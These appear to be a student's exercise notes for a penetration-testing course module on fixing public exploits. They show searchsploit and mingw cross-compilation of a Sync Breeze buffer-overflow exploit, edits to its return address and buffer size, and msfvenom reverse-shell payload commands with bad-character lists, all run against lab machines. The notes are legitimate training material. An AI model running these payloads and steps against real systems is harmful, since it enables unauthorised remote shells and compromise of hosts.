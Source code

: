 # 15.1.4 Cross-Compiling Exploit Code
**1.  Locate the exploit discussed in this section using the searchsploit tool in Kali Linux.**

We simply need to run the following command in order to find our exploit:
`searchsploit "Sync Breeze Enterprise 10.0.28"`

We can then copy the exploit to our working directory by using the -m command:
`searchsploit -m 42341`

**2.  Install the mingw-w64 suite in Kali Linux and compile the exploit code.**

In order to install mingw-w64 we need to run the following command:
`sudo apt install mingw-w64`

Upon viewing the code we see a few headers are included
```#include <inttypes.h>
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>
```

Doing a bit of research on winsock informs us that adding the lws2_32 flag should allow us to compile the program on our Kali machine. The following command will compile the code:
`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`

# 15.1.6 Changing the Socket Information
**1.  Modify the connection information in the exploit in order to target the SyncBreeze installation on your Windows client.**

In order to fix the exploit we simply need to open it in our text editor and modify the IP and port variables which are hard coded.
![[Pasted image 20220717201002.png]]

**2.  Recompile the exploit and use Wireshark to confirm that the code successfully initiates a socket connection to your dedicated Windows client.**

Once we modify the code we must recompile it before running the program. After the recompilation we can run the exe using wine. After executing the exe with wine we see the connection being made via Wireshark.
![[Pasted image 20220717232100.png]]
![[Pasted image 20220717232205.png]]

# 15.1.8 Changing the Return Address
**1.  Find any valid return address instruction and alter the one present in the original exploit.**

We can reuse our initial return address instruction we found in the previous exercise. All we need to do is replace the retn variable with our new instruction.
![[Pasted image 20220717233209.png]]


# 15.1.10 Changing the Payload
**1.  Generate a reverse shell payload using msfvenom while taking into account the bad characters of our exploit.**

To generate a new payload we can run the following MSFVenom command:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`

**2.  Replace the original payload with the newly generated one.**

We can now insert this payload into our exploit.
![[Pasted image 20220717233734.png]]

**3.  Attach the debugger to the target process and set a breakpoint at the return address instruction.**

We can now start the service, attach the debugger, and set a breakpoint (F2) at our return instruction.
![[Pasted image 20220717233911.png]]
![[Pasted image 20220717233936.png]]

**4.  Compile the exploit and run it. Did you hit the breakpoint?**

We compile the exploit with the following command:
`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`

Running the command with wine
`wine syncbreeze_exploit.exe `

Unfortunately, we do not hit our breakpoint and instead the program crashes at 0x9010090c
![[Pasted image 20220717234314.png]]

# 15.1.12 Changing the Overflow Buffer
**1.  Fix the overflow buffer such that the EIP register will be overwritten by your chosen return address instruction.**
Because the exploit is setting the last byte of our buffer to a null byte we must increase our buffer size by 1. We can do this by simply adjusting the "initial_buffer_size" variable from 780 to 781. Recompiling and running this changed exploit we can see we hit our breakpoint.
![[Pasted image 20220717235304.png]]

And letting the program finish running we can see we get our reverse shell.
![[Pasted image 20220717235336.png]]


**2.  Install the _ASX to MP3 Converter_ application located under the C:\Tools\fixing_exploits directory; download the exploit for _ASX to MP3 Converter_ from EDB[1](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/fixing-exploits/fixing-memory-corruption-exploits/practice-changing-the-overflow-buffer#fn1) and edit it in order to get a shell on your dedicated Windows machine.**

We can start by opening up the PoC exploit and replacing the shellcode with one we generated on our own.  To generate we use the following MSFVenom command (note the bad characters, information we gained from an internet search):
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=9000 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x09\x0a\x1a"`



# 15.2.4 Changing Connectivity Information
**1.  Connect to your dedicated Linux lab client and start the apache2 service; the target web application is located under /var/www/https/.**
**2.  Modify the original exploit and set the _base_url_ variable to the correct IP address of your dedicated Linux lab client as well as the protocol to HTTPS.**
**3.  Get familiar with the _requests_ Python library and adjust your exploit accordingly to avoid SSL verification.**
**4.  Edit the _username_ and _password_ variables to match the ones from our test case (username "admin", password "HUYfaw763").**
**5.  Try to run the exploit against the Linux lab client, does it work? If not, try to explain why.**


# 15.2.6 Troubleshooting the "index out of range" Error
**1.  Observe the error that is generated when running the exploit.**
**2.  Attempt to troubleshoot the code and determine why the error occurs.**
**3.  Modify the exploit in order to avoid the error and run it against your dedicated Linux client.**
**4.  Verify that your exploit worked by attempting to execute the _whoami_ command using the remote php shell.**
**5.  Attempt to obtain a fully interactive shell with this exploit.**